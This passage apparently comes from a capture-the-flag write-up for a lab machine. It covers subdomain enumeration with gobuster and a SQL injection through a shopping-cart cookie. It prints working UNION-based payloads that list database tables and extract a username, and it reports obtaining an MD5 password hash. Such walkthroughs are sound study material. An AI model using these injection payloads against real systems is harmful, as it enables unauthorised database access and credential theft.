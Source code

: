 When we visit the site, it seems to be some type of webshop.
We can see that they encourage us to take a look at their checkout functionality, and indeed there seems to be a subdomain for this specific feature:

```console
┌──(bitis㉿workstation)-[~]
└─$ gobuster vhost -u shared.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt                                                                                                                       1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shared.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/14 15:33:43 Starting gobuster in VHOST enumeration mode
===============================================================
Found: checkout.shared.htb (Status: 200) [Size: 3229]
Progress: 67551 / 114442 (59.03%)                   ^C
[!] Keyboard interrupt detected, terminating.
                                                     
===============================================================
2022/08/14 15:36:25 Finished
===============================================================
```
After adding this to our hosts file we can check out this domain as well:
![](checkout.png)
It seems that the site is using a cookie to keep track of the customers cart.

The cookie value is vunlerable to sql-injection. Using the `UNION` operator we can figure out which database the checkout functionality is using:
![](union.png)

Using the following injection:`{"' and 0=1 union select 1, table_name, 3 from information_schema.tables where table_schema = 'checkout'-- -":"1"}` we can list the tables that belong to the checkout database. This result in us finding the `user` table.

![](user.png)

Using the string: `{"' and 0=1 union select 1, username, id from user-- -":"1"}` we find a user by the name of `james_mason`: 
![](james.png)

And finally, we also get an md5 encrypted password: 

![](pass.png)
